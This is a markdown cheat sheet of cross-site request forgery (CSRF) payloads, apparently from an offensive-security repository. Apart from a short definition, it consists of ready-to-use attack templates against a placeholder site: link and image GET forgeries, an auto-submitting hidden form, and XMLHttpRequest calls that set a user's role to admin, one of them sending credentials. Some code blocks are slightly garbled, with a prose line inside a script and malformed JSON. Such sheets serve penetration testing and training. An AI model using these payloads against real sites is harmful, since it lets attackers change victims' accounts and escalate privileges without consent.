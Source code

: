 # CSRF(Cross Site Request Forgery)
>Cross-Site Request Forgery (CSRF) is a type of attack that occurs when a malicious web site, email, blog, instant message, or program causes a user’s web browser to perform an unwanted action on a trusted site when the user is authenticated.

![CSRF Method](https://raw.githubusercontent.com/k2haxor/HACK-THEM-ALL/master/CSRF/CSRF-CheatSheet.png)

## Exploit
When you are logged in to a certain site, you typically have a session. The identifier of that session is stored in a cookie in your browser, and is sent with every request to that site. Even if some other site triggers a request, the cookie is sent along with the request and the request is handled as if the logged in user performed it.

### HTML GET
**User Interaction Required**
```
<a href="http://www.xyz.com/api/setusername?username=k2">Click Me</a>
```
**User Interaction Not Required**
```
<img src="http://www.xyz.com/api/setusername?username=k2">
```

### HTML POST
**User Interaction Required**
```
<form action="http://www.xyz.com/api/setusername" enctype="text/plain" method="POST">
 <input name="username" type="hidden" value="k2" />
 <input type="submit" value="Submit Request" />
</form>
```
**User Interaction Not Required**
```
<form id="autosubmit" action="http://www.xyz.com/api/setusername" enctype="text/plain" method="POST">
 <input name="username" type="hidden" value="k2" />
 <input type="submit" value="Submit Request" />
</form>
 
<script>
 document.getElementById("autosubmit").submit();
</script>
```
### JSON GET
```
<script>
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://www.xyz.com/api/currentuser");
xhr.send();
</script>
```
### JSON POST
```
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://www.xyz.com/api/setrole");
xhr.setRequestHeader("Content-Type", "text/plain");
You will probably want to also try one or both of these
xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
xhr.setRequestHeader("Content-Type", "multipart/form-data");
xhr.send('{"role":admin}');
</script>
```
**OR**
```
`<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://www.xyz.com/api/setrole");
xhr.withCredentials = true;
xhr.setRequestHeader("Content-Type", "application/json;charset=UTF-8");
xhr.send('{"role":admin}');
</script>``

```
